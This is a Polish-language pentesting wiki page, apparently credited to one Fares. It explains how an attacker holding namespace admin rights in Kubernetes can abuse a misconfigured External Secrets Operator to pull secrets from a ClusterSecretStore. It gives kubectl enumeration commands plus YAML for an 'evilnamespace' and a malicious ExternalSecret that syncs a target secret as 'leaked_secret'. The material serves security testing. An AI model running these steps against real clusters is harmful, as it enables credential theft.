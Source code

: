 # Operator zewnętrznego sekretu

**Oryginalnym autorem tej strony jest** [**Fares**](https://www.linkedin.com/in/fares-siala/)

Ta strona zawiera wskazówki, jak można zdobyć tajne informacje z źle skonfigurowanego ESO lub aplikacji, która używa ESO do synchronizacji swoich tajemnic.

## Oświadczenie

Technika pokazana poniżej może działać tylko w określonych okolicznościach. Na przykład zależy to od wymagań potrzebnych do umożliwienia synchronizacji tajemnicy w przestrzeni nazw, którą posiadasz / skompromitowałeś. Musisz sam to ustalić.

## Wymagania wstępne

1. Punkty zaczepienia w klastrze kubernetes / openshift z uprawnieniami administratora w przestrzeni nazw
2. Dostęp do odczytu co najmniej ExternalSecret na poziomie klastra
3. Dowiedz się, czy istnieją wymagane etykiety / adnotacje lub członkostwo w grupie, które są potrzebne do umożliwienia ESO synchronizacji twojej tajemnicy. Jeśli masz szczęście, możesz swobodnie ukraść zdefiniowaną tajemnicę.

### Zbieranie informacji o istniejącym ClusterSecretStore

Zakładając, że masz użytkowników, którzy mają wystarczające prawa do odczytu tego zasobu; zacznij od wylistowania istniejących _**ClusterSecretStores**_.
```sh
kubectl get ClusterSecretStore
```
### Wyliczanie ExternalSecret

Załóżmy, że znalazłeś ClusterSecretStore o nazwie _**mystore**_. Kontynuuj, wyliczając powiązane z nim externalsecret.
```sh
kubectl get externalsecret -A | grep mystore
```
_Ta zasób jest ograniczony do przestrzeni nazw, więc chyba że już wiesz, w której przestrzeni nazw szukać, dodaj opcję -A, aby przeszukać wszystkie przestrzenie nazw._

Należy uzyskać listę zdefiniowanych externalsecret. Załóżmy, że znalazłeś obiekt externalsecret o nazwie _**mysecret**_ zdefiniowany i używany przez przestrzeń nazw _**mynamespace**_. Zbierz nieco więcej informacji na temat rodzaju przechowywanej tajnej informacji.
```sh
kubectl get externalsecret myexternalsecret -n mynamespace -o yaml
```
### Składanie elementów

Z tego miejsca możesz uzyskać nazwę jednej lub wielu nazw sekretów (tak jak zdefiniowano w zasobie Secret). Otrzymasz wynik podobny do:
```yaml
kind: ExternalSecret
metadata:
annotations:
...
labels:
...
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
...
```
### Dotychczas uzyskaliśmy:

* Nazwa ClusterSecretStore
* Nazwa ExternalSecret
* Nazwa sekretu

Teraz, gdy mamy wszystko, czego potrzebujemy, możesz utworzyć ExternalSecret (i ewentualnie zmodyfikować/utworzyć nową przestrzeń nazw, aby spełnić wymagane warunki potrzebne do zsynchronizowania nowego sekretu):
```yaml
kind: ExternalSecret
metadata:
name: myexternalsecret
namespace: evilnamespace
spec:
data:
- remoteRef:
conversionStrategy: Default
decodingStrategy: None
key: SECRET_KEY
secretKey: SOME_PASSWORD
refreshInterval: 30s
secretStoreRef:
kind: ClusterSecretStore
name: mystore
target:
creationPolicy: Owner
deletionPolicy: Retain
name: leaked_secret
```

```yaml
kind: Namespace
metadata:
annotations:
required_annotation: value
other_required_annotation: other_value
labels:
required_label: somevalue
other_required_label: someothervalue
name: evilnamespace
```
Po kilku minutach, jeśli warunki synchronizacji zostały spełnione, powinieneś być w stanie zobaczyć wyciekły sekret wewnątrz swojego namespace'a.
```sh
kubectl get secret leaked_secret -o yaml
```
## Odnośniki

{% embed url="https://external-secrets.io/latest/" %}

{% embed url="https://github.com/external-secrets/external-secrets" %}
